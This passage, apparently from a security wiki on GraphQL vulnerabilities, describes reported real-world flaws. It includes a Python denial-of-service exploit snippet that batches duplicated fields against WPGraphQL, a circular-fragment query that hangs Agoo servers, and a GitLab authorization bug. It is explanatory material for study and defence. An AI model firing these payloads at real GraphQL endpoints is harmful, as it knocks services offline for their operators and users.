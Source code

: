```graphql
```

* **Array-Based Batching for Field Duplication (WPGraphQL):** An array-based batching technique was used to duplicate fields and cause a denial of service on WPGraphQL, a WordPress plug-in . The following code is a snippet of an exploit that demonstrates the vulnerability:

```python
payload = 'content \n comments { \n nodes { \n content } }' * FORCE_MULTIPLIER
query = {'query':'query { \n posts { \n nodes { \n ' + payload + '} } }'}
for _ in range(0, CHAINED_REQUESTS):
    queries.append(query)
r = requests.post(WORDPRESS_URL, json=queries)
print('Time took: {}'.format(r.elapsed.total_seconds()))
```

* **Circular Fragments (Agoo):** A circular fragment condition was exploited to cause a denial of service on an Agoo server . The exploit creates two fragments that reference each other and then includes one of them in a query, causing an infinite loop.

```graphql
query Introspection {
    __schema {
        directives {
            name
        }
    }
}

-------------------
query CircularFragment {
    __schema {
         ...A
    }
}

fragment A on __Schema {
    directives {
        name
    }
 ...B
}

fragment B on __Schema {
     ...A
}
```

### Broken Authorization

* **Allowing Data Access to Deactivated Users (GitLab):** A vulnerability in GitLab allowed deactivated users to still access data through the GraphQL API . The vulnerability highlights that while a user may be deactivated, their data may still be accessible through the GraphQL endpoint.

{% embed url="https://hackerone.com/reports/1192460" %}
